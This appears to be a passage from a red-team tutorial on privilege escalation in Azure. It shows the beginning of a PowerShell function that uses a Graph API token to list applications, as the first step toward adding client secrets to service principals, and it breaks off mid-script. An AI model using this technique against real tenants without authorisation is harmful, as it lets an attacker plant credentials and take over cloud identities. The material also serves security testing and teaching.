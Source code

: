 ```yaml
---
title: Privesc and lateral movement
description: Escalation in the azure [bong] cloud
position: 4
---
```


# Privesc and lateral movement

## Adding secrets to service principals

The simplest way to check if an user can abuse its permissions over a service principal is to try to add secrets to it.

To perform this operation the following script along a graph token is required:

```powershell
Function Add-AzADAppSecret
{

<#
    .SYNOPSIS
        Add client secret to the applications.

    .PARAMETER GraphToken
        Pass the Graph API Token 

    .EXAMPLE
        PS C:\> Add-AzADAppSecret -GraphToken 'eyJ0eX..'

    .LINK
        https://docs.microsoft.com/en-us/graph/api/application-list?view=graph-rest-1.0&tabs=http
        https://docs.microsoft.com/en-us/graph/api/application-addpassword?view=graph-rest-1.0&tabs=http
#>

    [CmdletBinding()]
    param(
    [Parameter(Mandatory=$True)]
    [String]
    $GraphToken = $null
    )

    $AppList = $null
    $AppPassword = $null

    # List All the Applications


    $Params = @{
     "URI"     = "https://graph.microsoft.com/v1.0/applications"
     "Method"  = "GET"
     "Headers" = @{
     "Content-Type"  = "application/json"
     "Authorization" = "Bearer $GraphToken"
     }
    }

    try
    { 
        $AppList = Invoke-RestMethod @Params -UseBasicParsing
    }
```